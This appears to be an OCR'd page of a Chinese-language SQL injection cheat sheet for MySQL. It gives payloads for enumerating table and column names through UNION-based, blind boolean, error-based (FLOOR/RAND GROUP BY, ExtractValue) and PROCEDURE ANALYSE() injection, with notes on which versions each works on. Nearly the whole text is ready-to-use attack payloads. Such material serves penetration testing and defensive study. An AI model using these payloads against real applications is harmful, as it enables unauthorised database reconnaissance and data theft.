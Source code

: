 **表名**

```sql
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';

-- union 查询
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */

-- 盲注
AND select SUBSTR(table_name,1,1) from information_schema.tables where table_schema=database() > 'A'

-- 报错
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
-- 在5.1.5版本中成功。
```

**列名**

```sql
-- union 查询
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

-- 盲注
AND select substr((select column_name from information_schema.columns where table_schema=database() and table_name = 'tablename' limit 0,1),1,1) > 'A'

-- 报错
-- 在5.1.5版本中成功
AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
-- MySQL 5.1版本修复了
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));

-- 利用 PROCEDURE ANALYSE()
-- 这个需要 web 展示页面有你所注入查询的一个字段
-- 获得第一个段名
SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
-- 获得第二个段名
1 LIMIT 1,1 PROCEDURE ANALYSE()
-- 获得第三个段名
1 LIMIT 2,1 PROCEDURE ANALYSE()
```
